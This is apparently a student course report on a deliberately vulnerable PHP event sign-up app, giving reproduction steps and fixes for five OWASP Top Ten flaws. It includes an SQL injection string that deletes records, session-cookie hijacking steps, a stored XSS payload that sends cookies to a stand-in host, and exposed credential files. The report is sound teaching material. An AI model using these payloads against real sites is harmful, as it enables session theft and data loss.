 # The Report

This project is done with PHP in a LAMP environment.<br> 
See https://github.com/j0ly/firstproject/blob/master/README.md for installation instructions.

There are many other problems with this code besides those which I have mentioned and provided a fix for here below. And I know regarding the fixes, that there are many things that could be done to further improve the security. But I had to draw the line somewhere. The task was to have at least 5 OWASP Top Ten vulnerabilies, and to provide a fix for them, which I think I have done!

The OWASP vulnerabilities:

## A1-Injection

### How to identify 
Sign up some users to the event. Check from the Admin page. Then go to the Cancel page and enter: ```' OR '1'='1```. All the sign-ups are now gone, as you can see from the Admin page!    

### How to fix
Add this after line 12 in delete.php;

```$ticket = mysqli_real_escape_string($conn, $ticket);```

## A2-Broken Authentication and Session Management
The cookie-session-id is sent over an unencrypted connection.

### How to identify
You can get access to the Admin page using the stolen cookie-session-id like this (but before you begin, install the “Advanced Cookie Manager” add-on to Firefox):

1. Capture the cookie-session-id with OWASP ZAP. 
2. Go to the Admin login-page with Firefox (but don’t log in, - if you are not asked for the credentials then close the browser and try again). 
3. Open “Advanced Cookie Manager” and enter the cookie-session-id you saw with OWASP ZAP into the "Value" box, replacing the existing one (delete first, then paste). Save the change.
4. Re-enter the Admin page (do not only reload), and you’re in without entering credentials!

Note: You can use OWASP ZAP together with another browser to capture the cookie-session-id when logging in.

### How to fix
Use SSL for the website (see the link in Readme for details)! 

## A3-Cross-Site Scripting (XSS)
Stored XSS vulnerability: The XSS code can be entered on the SignUp page, and executed on the Admin page when listing the sign-ups. 
### How to identify
Enter this code into the address field on the SignUp page;

```<img src=x onerror=this.src='http://yourserver/?c='+document.cookie>```

When the admin logs in and takes a look at the sign-ups, his session-id should be written to the Apache logs of “yourserver”.<br> 
But you can also test with code like this, in any of the fields on the SignUp page; 
```<body onload=alert('hello')>```

### How to fix
In done.php you can find these lines;
```
$fname = $_POST["name"];
$faddress = $_POST["address"];
$creditcard = $_POST["creditcard"];
```
Replace them with these lines;
```
$fname = clean($_POST["name"]);
$faddress = clean($_POST["address"]);
$creditcard = clean($_POST["creditcard"]);

function clean($data) {
  $data = trim($data);
  $data = stripslashes($data);
  $data = htmlspecialchars($data);
  return $data;
}
```

## A6-Sensitive Data Exposure
Credit card numbers are sent without SSL in cleartext with POST.

### How to identify
Capture the (imaginary) credit card numbers using OWASP ZAP.

### How to fix: 
Again, use SSL (see the link in Readme for details)! 

But there are many requirements when handling credit card data, see https://en.wikipedia.org/wiki/Payment_Card_Industry_Data_Security_Standard<br>


## A7-Missing Function Level Access Control
The database credentials are stored in an easy to guess plaintext config file, inside the web-root, and is lacking access control.
### How to identify
Modify “yourserver” in this link to match your installation; http://yourserver/firstproject/admin/config.ini. Then open this link with your browser, and you should see the credentials.
### How to fix
Deny access to the config.ini file. 

There is already a .htaccess file in the admin folder that should do that, but Apache does not by default enable the use of .htaccess files. To enable, do this:

  Open /etc/apache2/apache2.conf in an editor, and find these lines;
  ```
  <Directory /var/www/>
        Options Indexes FollowSymLinks
        AllowOverride None
        Require all granted
  </Directory>
  ```
  Change “AllowOverride None” to “AllowOverride All”. Run the command “apachectl restart”, and try to open the link again.
